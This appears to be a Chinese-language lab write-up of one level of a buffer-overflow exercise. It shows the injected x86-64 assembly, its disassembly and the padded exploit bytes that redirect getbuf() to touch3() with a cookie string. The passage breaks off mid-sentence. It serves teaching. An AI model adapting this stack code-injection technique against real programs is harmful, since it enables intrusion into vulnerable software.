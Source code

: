 ## 第三关

先用 `man ascii` 查到字符串 `59b997fa` 的十六进制表示：

```
35 39 62 39 39 37 66 61
```

与前一关不同，这里不能直接将其写入 `getbuf()` 的帧内，而应将其压入栈内（并补一个空字符），故需植入的指令为：

```nasm
; exploit.s
push 0x0 ; 字符串尾
mov  rdi, 0x6166373939623935 ; 直接压栈无法编译
push rdi                     ; 故分作两步
mov  rdi, rsp ; 设置 touch3() 的实参
push 0x4018fa ; touch3() 的地址
ret
```

先汇编，再反汇编：

```shell
$ nasm -f elf64 exploit.s && objdump -d exploit.o
```

得以下输出：

```
exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   6a 00                   pushq  $0x0
   2:   48 bf 35 39 62 39 39    movabs $0x6166373939623935,%rdi
   9:   37 66 61 
   c:   57                      push   %rdi
   d:   48 89 e7                mov    %rsp,%rdi
  10:   68 fa 18 40 00          pushq  $0x4018fa
  15:   c3                      retq
```

将指令编码编入 `exploit.txt` 的前半部分，并确保 `0xc3` 的地址位于 `0x5561dc90` 之前：

```c
/* exploit.txt */
/* 0x5561dc78 */ 6a 00 /* pushq */
/* 0x5561dc7a */ 48 bf 35 39 62 39 39 37 66 61 /* movabs */
/* 0x5561dc84 */ 57 /* push */
/* 0x5561dc85 */ 48 89 e7 /* mov */
/* 0x5561dc88 */ 68 fa 18 40 00 /* pushq */ 
/* 0x5561dc8d */ c3 /* retq */ 90 90
/* 0x5561dc90 */ 90 90 90 90 90 90 90 90
/* 0x5561dc98 */ 90 90 90 90 90 90 90 90
/* 0x5561dca0 */ 78 dc 61 55 00 00 00 00
```
之所以要这样安排，是因为
